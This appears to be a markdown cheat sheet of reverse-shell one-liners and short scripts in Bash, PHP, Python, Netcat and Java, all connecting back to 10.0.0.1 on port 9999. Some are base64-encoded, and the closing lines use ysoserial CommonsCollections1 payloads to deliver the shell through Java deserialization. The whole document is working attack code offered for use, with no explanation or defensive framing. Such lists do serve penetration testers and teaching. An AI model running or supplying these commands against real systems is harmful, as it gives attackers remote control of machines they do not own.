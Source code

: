 # Various Reverse Shells

# Bash
```
bash -i >& /dev/tcp/10.0.0.1/9999 0>&1
```
###
###
```
echo "bash -i >& /dev/tcp/10.0.0.1/9999 0>&1" | bash
```
###
#### Base64 Encoded
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```
###

# PHP
```
php -r '$sock=fsockopen("10.0.0.1",9999);exec("bash -i <&3 >&3 2>&3");'
```
###
###
```
<?php 

$cmd = 'echo "bash -i >& /dev/tcp/10.0.0.1/9999 0>&1" | bash';
exec($cmd);

?>
```
###

# Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

```
###
###
```
import socket,subprocess,os;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);

s.connect(("10.0.0.1",9999));

os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

p=subprocess.call(["/bin/bash","-i"]);

```
###

# Netcat
```
nc -e /bin/sh 10.0.0.1 9999
```
###
###
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 9999 >/tmp/f
```
###

# Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/9999;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
###
###
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```
###
###
```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsCollections1 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}'
```
###



java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjAuNi85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}'
